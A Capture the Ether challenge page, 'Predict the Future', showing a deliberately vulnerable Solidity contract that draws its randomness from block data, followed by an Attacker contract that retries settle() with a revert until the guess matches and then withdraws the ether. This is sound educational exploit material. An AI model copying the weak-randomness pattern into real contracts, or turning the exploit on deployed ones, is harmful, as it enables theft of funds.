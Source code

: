 This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







solution

https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

```solidity
// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```





